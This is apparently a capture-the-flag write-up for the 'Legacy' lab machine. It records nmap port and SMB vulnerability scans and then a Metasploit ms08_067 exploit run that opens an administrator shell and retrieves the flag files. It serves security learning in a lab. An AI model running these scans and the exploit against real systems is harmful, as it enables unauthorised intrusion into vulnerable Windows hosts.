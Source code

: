 **Ping** 
```
Ping 10.10.10.4
```
![[Pasted image 20240611165916.png]]

Nmap default Scan
```
nmap 10.10.10.4 -oN dnmap
```
![[Pasted image 20240611170118.png]]

Script and Service Scan
```
nmap 10.10.10.4 -sC -sV -oN snmap
```
![[Pasted image 20240611170138.png]]

All port Scan
```
nmap 10.10.10.4 -sC -sV -p- --open -T5 -oN anmap
```
![[Pasted image 20240611170617.png]]

SMB Enumeration
```
nmap --script smb-vuln* --script smb-enum-shares.nse --script smb-enum-users.nse -p139,445 10.10.10.4 -oN smb_enum
```
![[Pasted image 20240611171555.png]]
We have vulnerable smb running on the machine.

Will try to exploit it...!

Using Metasploit
```
msfconsole
```
![[Pasted image 20240611182456.png]]

```
search ms08_067
use 0
set RHOST 10.10.10.4
set LHOST 10.10.14.7
exploit
shell
```
![[Pasted image 20240611182623.png]]
We are already Administrator, so no need Privilege escalation

We got user.txt in John's desktop
![[Pasted image 20240611182708.png]]

We got root.txt in Admin's desktop
![[Pasted image 20240611182734.png]]




Done with Legacy.....:)
